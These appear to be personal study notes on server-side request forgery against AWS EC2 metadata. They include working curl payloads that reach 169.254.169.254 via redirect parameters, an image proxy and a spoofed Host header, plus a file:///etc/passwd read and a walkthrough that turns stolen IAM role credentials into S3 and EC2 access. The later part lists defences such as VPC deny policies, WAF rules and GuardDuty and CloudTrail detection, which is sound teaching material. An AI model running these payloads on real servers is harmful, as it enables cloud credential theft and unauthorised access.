 # Notes

## AWS metadata

You can access aws metadata inside your ec2 (hypervisor)

```
ec2-user> curl -s http://169.254.169.254/latest/meta-data

# E.g.
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/SSRFDEMO-ISRM-WAF-Role
```

## Server Side Request Forgery (SSRF)

Ref: https://www.youtube.com/channel/UCc5ZvM72SAxmjyQypnJVBpQ/live

SSRF is a vulnerability which allows an attacker to make web requests from the context of the server
 host machine to arbitrary URL's.

This vulnerability can allow the attacker to access resources internal to the network, which would otherwise
be inaccessible.

E.g. Run a curl command from a server.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"

curl -vv "https://example.com/viewimage/?url=file:///etc/passwd"

PHP:
curl_exec($ch);

Proxy:
curl "https://proxy.duckduckgo.com/iur/?f=1&image_host=http://169.254.169.254/latest/meta-data"

Proxy Config (nginx):
# Don't ever use setup a proxy like this!
server {
  listen 80 default_server;
  location / {
    proxy_pass http://$host;
  }
}

```

Example

```
> curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254';echo

SSRFDEMO-ISRM-WAF-ROLE

> curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/SSRFDEMO-ISRM-WAF-ROLE -H 'Host:169.254.169.254';echo

{
  "Code": ...,
  "AccessKeyId": ...,
  "Token": ...,
}

# Copy these to your credential file
aws_access_key_id =
aws_secret_access_key =
aws_session_token = 

# Now you can access the underlying resources that the EC2 can access, e.g.
aws s3 ls

# Get instance ids
aws ec2 describe-instances --query 'Reservations[*].Instances[*]'

# Get user data
aws ec2 describe-instance-attribute --instance-id <instance id> --attribute userData --region <region>

echo <user data> | base64 --decode

```

### Fix

1. Add a policy to the role to ensure all action must be from the vpc.

```
"Statement": [
  {
    "Action": "*",
    "Resource": "*",
    "Effect": "Deny",
    "Condition": {
      "StringNotEquals": {
        "aws:SourceVpc": [ "vpc-xxx-this-vpc" ]
      }
    }
  }
]
``` 

Cannot access s3 anymore.

But still can do - 
curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254';echo

2. Set up WAF 

```
a) go to WAF > Web ACLs
b) create/edit Web ACL (e.g. SSRF_Protection)
   - Rules > Edit web ACL
     - Rule: SSRFProectionRule
     - Action: Block
c) Details

Now curl won't work anymore 
curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254';echo

3. GuardDuty

Reported "UnauthorizedAccess:IAMUser ... has been used from external IP address..."

4. Cloudtrail

($.errorCode="Client.UnauthorizedOperation")

4. Patch your applications and OS
5. Never trust user inputL use input validation checks
6. Blacklist the AWS metadata url
7. Create different AWS accounts to limit the blast radius
8. Use IP reputation blacklisting and other WAF rules

```
